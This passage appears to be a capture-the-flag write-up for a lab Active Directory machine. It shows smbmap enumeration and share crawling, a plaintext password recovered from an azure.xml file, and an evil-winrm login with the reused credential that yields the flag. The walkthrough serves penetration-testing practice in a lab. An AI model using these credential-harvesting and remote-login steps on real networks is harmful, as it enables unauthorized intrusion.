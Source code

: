 This was successful and we have gained valid domain credentials: `SABatchJobs / SABatchJobs` .

## SMB enumeration as SABatchJobs

```bash
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -x whoami
```
This wasn't successful.

We can instead use smbmap to enumerate the remote file shares, which lists our `permissions`.
```bash
smbmap -u SABatchJobs  -p SABatchJobs -d megabank -H 10.10.10.172
```
![](MediaFiles/Pasted%20image%2020250624124147.png)

Next, let's `crawl` the users$ share for potentially interesting files, such as Office documents, text and XML files. (saves time when having large number of shares)
```bash
smbmap -u SABatchJobs -p SABatchJobs -d megabank -H 10.10.10.172 -A
'(xlsx|docx|txt|xml)' -R
```

This reveals the file azure.xml , which is automatically downloaded. this file contained a password!
```bash
<S N="Password">4n0therD4y@n0th3r$</S>
```

## Logging in as mhope

Let's check if `mhope` also uses this password in the local AD, as we know this account is in the `Remote Management Users` group.
```bash
evil-winrm -i 10.129.180.160 -u mhope -p '4n0therD4y@n0th3r$'
```
and we are in! , lets grab the flag: `c5493bf7722329e80c066b1b2f69a58f`

----
# Privesc

